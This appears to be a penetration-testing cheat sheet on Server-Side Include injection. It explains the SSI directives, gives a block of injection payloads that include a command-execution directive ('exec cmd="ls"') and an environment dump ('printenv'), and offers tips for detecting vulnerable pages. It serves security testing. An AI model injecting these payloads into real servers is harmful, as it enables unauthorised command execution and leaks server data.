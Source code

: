 
## Primary SSI directives 

- **config** : The config command is a control directive to modify various SSI components. Includes parameters such as the default server error message (errmsg), file size format (sizefmt), and the date & time format (timefmt)

- **echo** : Inserts SSI and CGI environment variables values while including optional encoding arguments.

- **exec** : Executes an external application, following which the execution output is inserted into the document. This control directive supports cmd arguments from any client app or a cgi program.

- **flastmod**: The last time and date a specified file was modified. It accepts both a virtual path (virtual) and a relative pathname (file) as arguments for locating the document on the server.

- **include**:  Inserts text from another document into the current file. It also accepts file and virtual arguments to locate the document.

```
virtual uses a path that's relative to the server's document root or current directory and is processed by the server to determine the actual file location.
file uses the actual file path (relative or absolute) on the server's file system.
```

- **printenv**  Displays all environment variables within the server.

- **set** : A control directive that sets a server-side variable to the specified value.



## Payloads 

``` 
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```


## Detection 

- checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

- It is possible to check if the application is properly validating input fields data by inserting characters that are used in SSI directives, like:
< ! # = / . " - > and [a-zA-Z0-9]
